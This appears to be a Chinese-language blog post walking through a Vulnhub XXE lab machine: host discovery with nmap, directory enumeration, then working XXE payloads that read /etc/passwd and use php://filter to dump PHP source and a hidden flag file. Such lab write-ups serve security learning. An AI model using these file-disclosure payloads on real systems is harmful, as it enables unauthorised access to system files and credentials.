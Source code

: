 ```yaml
---
layout: post
title: Vulnhub靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，/xxe/admin.php页面

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- ip/xxe/admin.php同样是登录界面

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- 查看源码，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)

![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

- 登录admin.php

![xxe-11](https://cijian00.github.io/img/Vulnhub/XXE/11.png)

- 点击链接，跳转至/xxe/flagmeout.php。
- 显示是空白页，查看页面源代码。

![xxe-12](https://cijian00.github.io/img/Vulnhub/XXE/12.png)

- 先进行base32解密，再进行base64解密。
- 可得/etc/.flag.php

![xxe-13](https://cijian00.github.io/img/Vulnhub/XXE/13.png)

- 查看/etc/.flag.php。

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/.flag.php">
]>
<root><name>&admin;</name><password>1</password></root>
```
- base64解密之后看着像无特征码的PHP Webshell。

![xxe-14](https://cijian00.github.io/img/Vulnhub/XXE/14.png)

- 保存至本地环境，命名为flag.php。前后分别添加上```<?php   ?>```
- 再访问flag.php可得flag。

![xxe-15](https://cijian00.github.io/img/Vulnhub/XXE/15.png)
